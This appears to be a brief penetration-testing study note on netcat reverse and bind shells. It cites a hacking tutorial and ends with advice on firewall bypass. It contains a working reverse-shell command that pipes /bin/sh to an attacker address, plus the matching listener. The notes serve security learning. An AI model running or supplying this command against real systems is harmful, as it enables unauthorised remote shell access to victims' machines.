


#  Exploitation Basics

Source: https://www.hackingtitorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/

## **Netcat Reverse Shells** - a victim connect to the attacker

![Alt](netcatreverseshell.png)


- All we do is to listen via

```
nc -lvp 4444
```

- The target connect to us and establish a shell

```
nc 192.168.1.1 4444 -e /bin/sh
```

Example:

![Alt](ncrevershelldo.png)

## **Netcat Bind Shells** - an attacker connects to the victim

![Alt](doncreverse.png)


![Alt](donetcatbindshell.png)


============================================================

NOTE: Use reverse shell 95%
Bind shell usually in external assessment
Bypass firewall just listen instead in port forward in FW